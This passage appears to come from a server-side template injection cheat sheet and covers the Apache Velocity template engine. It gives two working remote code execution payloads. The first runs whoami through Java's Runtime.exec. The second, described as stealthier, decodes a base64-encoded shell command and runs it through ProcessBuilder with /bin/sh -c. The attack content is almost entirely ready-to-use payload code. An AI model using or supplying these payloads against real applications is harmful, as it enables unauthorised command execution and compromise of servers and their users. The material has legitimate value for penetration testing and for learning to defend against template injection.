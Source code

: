 
---

## Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)

> Apache Velocity is a Java-based template engine that allows web designers to embed Java code references directly within templates.

In a vulnerable environment, Velocity's expression language can be abused to achieve remote code execution (RCE). For example, this payload executes the whoami command and prints the result:

```java
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

A more flexible and stealthy payload that supports base64-encoded commands, allowing execution of arbitrary shell commands such as `echo "a" > /tmp/a`. Below is an example with `whoami` in base64:

```java
#set($base64EncodedCommand = 'd2hvYW1p')

#set($contextObjectClass = $knownContextObject.getClass())

#set($Base64Class = $contextObjectClass.forName("java.util.Base64"))
#set($Base64Decoder = $Base64Class.getMethod("getDecoder").invoke(null))
#set($decodedBytes = $Base64Decoder.decode($base64EncodedCommand))

#set($StringClass = $contextObjectClass.forName("java.lang.String"))
#set($command = $StringClass.getConstructor($contextObjectClass.forName("[B"), $contextObjectClass.forName("java.lang.String")).newInstance($decodedBytes, "UTF-8"))

#set($commandArgs = ["/bin/sh", "-c", $command])

#set($ProcessBuilderClass = $contextObjectClass.forName("java.lang.ProcessBuilder"))
#set($processBuilder = $ProcessBuilderClass.getConstructor($contextObjectClass.forName("java.util.List")).newInstance($commandArgs))
#set($processBuilder = $processBuilder.redirectErrorStream(true))
#set($process = $processBuilder.start())
#set($exitCode = $process.waitFor())

#set($inputStream = $process.getInputStream())
#set($ScannerClass = $contextObjectClass.forName("java.util.Scanner"))
#set($scanner = $ScannerClass.getConstructor($contextObjectClass.forName("java.io.InputStream")).newInstance($inputStream))
#set($scannerDelimiter = $scanner.useDelimiter("\\A"))

#if($scanner.hasNext())
  #set($output = $scanner.next().trim())
  $output.replaceAll("\\s+$", "").replaceAll("^\\s+", "")
#end
```
